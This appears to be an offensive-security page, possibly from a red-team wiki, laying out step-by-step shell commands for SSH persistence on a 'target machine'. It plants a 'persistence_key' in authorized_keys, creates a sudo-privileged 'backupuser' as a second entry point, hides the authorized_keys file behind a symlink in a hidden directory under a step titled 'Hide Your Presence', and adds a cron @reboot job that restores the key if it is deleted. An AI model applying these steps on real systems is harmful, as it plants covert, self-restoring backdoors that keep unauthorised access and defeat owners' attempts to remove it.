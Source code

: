 ```yaml
---
legal-banner: true
---
```


### **Step 1. Generate SSH Keys**

1. Generate an SSH key pair on your local machine:
`ssh-keygen -t rsa -b 4096 -f ~/.ssh/persistence_key`
	- `-t rsa`: Specifies the type of key to create (RSA).
	- `-b 4096`: Specifies the number of bits in the key.
	- `-f ~/.ssh/persistence_key`: Specifies the file in which to save the key.

### **Step 2. Copy the Public Key to the Target Machine**

1.  Copy the public key to the target machine using SSH:
    `ssh-copy-id -i ~/.ssh/persistence_key.pub user@target_machine`
2.  Alternatively, manually add the public key to the target machine `~/.ssh/authorized_keys` file:  
    `cat ~/.ssh/persistence_key.pub | ssh user@target_machine "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"`

### **Step 3. Ensure Proper Permissions**

On the target machine, ensure the `.ssh` directory and `authorized_keys` file have the correct permissions:

1.  Set the .ssh directory permissions to 700:  
    `chmod 700 ~/.ssh`
2.  Set the authorized_keys file permissions to 600:  
    `chmod 600 ~/.ssh/authorized_keys`

### **Step 4. Configure SSH for Key-Based Authentication**

Verify the SSH server configuration on the target machine to ensure key-based authentication is enabled. Edit /etc/ssh/sshd_config:  
`sudo nano /etc/ssh/sshd_config`

1.  Ensure the following lines are present and uncommented:  
    `PubkeyAuthentication yes`  
    `AuthorizedKeysFile .ssh/authorized_keys`
    
2.  Restart the SSH service to apply the changes:  
    `sudo systemctl restart sshd`
    
3.  Test SSH access using the private key:  
    `ssh -i ~/.ssh/persistence_key user@target_machine`
    

### **Step 5. Establish a Backup SSH User**

Create a new user on the target machine as a backup entry point:

1.  Add a new user:  
    `sudo adduser backupuser`
2.  Add the new user to the `sudo` group:  
    `sudo usermod -aG sudo backupuser`
3.  Add your public key to the new user `authorized_keys` file:  
    `ssh-copy-id -i ~/.ssh/persistence_key.pub backupuser@target_machine`

### **Step 6. Hide Your Presence**

Move the authorized_keys file to a hidden location and create a symbolic link:

1.  Create a hidden directory:  
    `mkdir -p ~/.config/.ssh`  
    
2.  Move the authorized_keys file:  
    `mv ~/.ssh/authorized_keys ~/.config/.ssh/authorized_keys`  
   
3.  Create a symbolic link:  
    `ln -s ~/.config/.ssh/authorized_keys ~/.ssh/authorized_keys`  


### **Step 7. Set Up a Cron Job for Persistence**

1.  Create a cron job to ensure your SSH key is re-added if removed:  
    `(crontab -l ; echo "@reboot sleep 60 && cat ~/.config/.ssh/authorized_keys >> ~/.ssh/authorized_keys") | crontab -`